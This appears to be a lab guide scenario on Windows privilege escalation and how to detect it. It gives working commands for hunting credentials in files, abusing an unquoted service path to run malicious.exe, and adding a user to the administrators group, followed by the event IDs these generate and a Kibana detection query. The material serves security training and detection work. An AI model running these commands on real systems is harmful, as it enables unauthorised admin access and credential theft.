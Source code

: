 
## Scenario 5: Privilege Escalation (Windows)

### 🎯 Objective
Escalate privileges on Windows and detect via Sysmon and Security logs.

### 🔴 Attack Steps (After initial access on WIN10-VULN)

```powershell
# Check current user
whoami
whoami /priv

# Search for credentials in files
findstr /si password *.txt *.xml *.config

# Check for unquoted service paths
wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "C:\Windows\\" | findstr /i /v """

# Exploit unquoted service path
sc query "VulnerableService"
sc config "VulnerableService" binpath= "C:\Temp\malicious.exe"
sc start "VulnerableService"

# Check admin group membership
net localgroup administrators

# Attempt to add user to admin group
net localgroup administrators lowpriv /add
```

### 📊 Logs Generated

**Event ID 4672** - Special privileges assigned (Admin logon)
**Event ID 4720** - User account created
**Event ID 4732** - Member added to security-enabled local group
**Sysmon Event ID 1** - Process creation
**Sysmon Event ID 10** - Process access

### 🔍 Detection in Kibana

**Query: Privilege Escalation Indicators**
```json
{
  "query": {
    "bool": {
      "should": [
        {"term": {"winlog.event_id": 4672}},
        {"term": {"winlog.event_id": 4732}},
        {"term": {"winlog.event_id": 4720}},
        {
          "bool": {
            "must": [
              {"term": {"winlog.event_id": 1}},
              {"match": {"process.command_line": "net localgroup administrators"}}
            ]
          }
        }
      ],
      "minimum_should_match": 1
    }
  }
}
```